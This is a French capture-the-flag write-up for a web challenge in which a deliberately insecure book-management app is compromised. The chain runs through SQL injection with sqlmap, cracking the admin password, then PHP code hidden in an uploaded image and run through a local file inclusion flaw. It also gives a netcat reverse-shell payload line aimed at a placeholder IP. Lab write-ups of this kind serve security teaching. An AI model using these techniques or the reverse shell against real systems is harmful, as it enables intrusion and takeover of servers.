










# Winventory

### Catégorie

Web

### Description

Une entreprise, PHPBoomer, a créé une application pour gérer vos livres! 
Elle permet notamment d'ajouter des livres, les modifier, les supprimer, ajouter l'endroit où ils sont stockés, marquer la page à laquelle vous êtes, ... 

Cette entreprise est connue pour ne pas trop prendre en compte la sécurité informatique dans le développement de ces projets. 
Vous êtes mandaté pour auditer leur solution!

Format : MCTF{}

### Auteur 

Worty

### Solution

Quand on arrive sur le site, on nous demande de nous créer un compte, on le fait, et on se retrouve sur la page pour gérer nos livres. 
On parcourt l'application, on ajoute une maison, des livres, on les modifie... On voit que pas mal de paramètres sont passés à la base de données. 

On teste donc les paramètres, après plusieurs tests, on se rend compte qu'un des paramètres semblent bizarres, le paramètres "id" quand on modifie un livre depuis la page de recherche. Je vais personnellement utiliser sqlmap pour récupérer le contenu de la base de données: 

  
Bingo ! Nous avons trouvé le paramètre injectable, et la base de données derrière semble être MySQL. Et la base de données s'appelle "winventory" 
Nous allons continuer notre avancé avec sqlmap, récupérons les tables de cette base: 

  
La table "users" semble intéressante, car elle peut potentiellement stocker des identifiants administrateurs, nous allons maintenant récupérer les colonnes de cette table: 

  
Nous récupérons beaucoup de colonnes, mais les plus intéressantes sont données dans l'image ci-dessus. Nous allons maintenant récupérer le contenu de ces tables: 

  
Bingo ! Notre hypothèse de départ était bonne, il y a bien des identifiants administrateurs, mais le mot de passe semble être hashé. 
Nous allons donc essayer de le casser à l'aide de rockyou: 

  
Le mot de passe utilisé était très faible: "urfaceismassive", maintenant, nous nous connectons en tant qu'admin avec les identifiants: 
- admin@adminozor.fr/urfaceismassive  
Quand on est connecté en tant qu'administateur, on voit qu'il y a un menu en plus, réservé aux admins: 

  
A l'aide de ces deux pages, on peut manager le site et ajouter des images à nos livres (car nous sommes admin). En cliquant sur "Manage" et en regardant le code source, on observe ce commentaire: 

  
Ce paramètre nous permet de réaliser une faille de type LFI (Local File Inclusion), cela pourra potentiellement nous être utile pour la suite du challenge. 
Nous allons donc dans la page d'upload, après un petit peu d'énumération, on se rend compte que le site n'accepte que les images (png et jpg). 
Malheureusement pour les développeurs de cette application, il est possible d'ajouter des commentaires dans une image, dont du PHP, on injecte donc du PHP permettant d'exécuter du code: 

  
L'image est acceptée! Une fois que cela est fait, le site nous propose d'aller la voir, d'apparence, elle paraît normal, mais notre payload est cachée dedans. L'url de l'image (pour ma part) est la suivante: 

  
C'est ici que notre LFI va nous être utile, car nous allons inclure cette image pour exécuter notre code PHP, avec l'url récupéré ci-dessus. 
Après de l'énumération, on se rend compte d'un fichier bizarre à la racine: "thisFileIsSecretAndConfidential.txt", essayons de l'afficher avec notre image backdoorée: 

  
Note : Il aurait été aussi possible d'obtenir un reverse shell sur la machine avec une payload du type: "nc <YOUR IP> <PORT> -e /bin/bash".

### Flag

MCTF{th1s_c0mp4ny_d1dnt_c4r3_4b0ut_s3cur1ty}